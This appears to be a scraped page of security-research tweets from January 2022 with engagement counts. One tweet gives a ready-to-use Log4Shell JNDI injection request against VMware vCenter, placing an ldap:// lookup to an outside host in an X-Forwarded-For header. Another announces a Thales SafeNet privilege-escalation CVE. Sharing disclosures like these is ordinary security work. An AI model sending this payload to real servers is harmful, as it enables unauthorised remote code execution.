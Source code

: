 * https://gist.github.com/picar0jsu/f3e32939153e4ced263d3d0c79bd8786

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>52</code></td>
<td>Favorites: <code>117</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1484423859797622784 _at 2022-01-21 07:13:22_**
<blockquote>
VMware vCenter Server Unauthenticated Log4Shell JNDI Injection RCE (CVE-2021-44228)

GET /websso/SAML2/SLO/vsphere.local?SAMLRequest= HTTP/1.1
X-Forwarded-For: ${jndi:ldap://10.10.10.10:1389/Exploit}

https://t.co/NDKkQK3csc
</blockquote>

* https://packetstormsecurity.com/files/165642/VMware-vCenter-Server-Unauthenticated-Log4Shell-JNDI-Injection-Remote-Code-Execution.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>130</code></td>
<td>Favorites: <code>336</code></td>
</tr></table>

---

# r0ns3n
**https://twitter.com/r0ns3n/status/1484204189941174273 _at 2022-01-20 16:40:28_**
<blockquote>
Another #CVE (CVE-2021-42810) of mine just got published. #Thales SafeNet Agent for Remote Desktop Gateway for #Windows contains a Local Privilege Escalation #vulnerability.
#Mandiant #MYOW #LPE #EoP #UpdateNow #MandiantVulnerabilityDisclosure

https://t.co/9XSMV22PKp
</blockquote>

* https://github.com/mandiant/Vulnerability-Disclosures/blob/master/2022/MNDT-2022-0002/MNDT-2022-0002.md

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---